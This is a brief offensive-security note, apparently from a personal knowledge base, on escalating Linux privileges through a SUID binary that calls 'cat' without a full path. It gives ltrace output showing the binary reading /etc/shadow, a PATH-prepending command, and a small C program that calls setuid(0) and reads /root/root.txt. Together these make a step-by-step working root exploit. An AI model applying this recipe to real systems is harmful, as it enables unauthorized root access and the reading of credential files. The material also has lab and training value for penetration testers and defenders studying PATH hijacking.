 # Unsanitized Path
#unsanitizedpath 

1. Search for suid binaries (see [[Security/Offensive/Linux/LPE]])
2. Check if binary calls other binaries without full path via `ltrace` and `strace`
```
XXXXXXXXXX:~$ ltrace ./backup 
__libc_start_main(0x804841d, 1, 0xbffff7d4, 0x8048440 <unfinished ...>
system("cat /etc/shadow"cat: /etc/shadow: Permission denied
 <no return ...>
--- SIGCHLD (Child exited) ---
```
3.  Add local path (`pwd`) to the start of the the `$PATH` var
`export PATH=<pwd-output>:$PATH`
5.  Place a evil bin with the name of the unsanitized bin in the current folder, for example:
demo.c:
```
#include<unistd.h>
void main(){
        setuid(0);
        setgid(0);
        system("more /root/root.txt");
}
```
`gcc demo.c -o <name-of-evil-bin>`
But any executable file can be used.
6. Run the vulnerable binary
7. `$$$`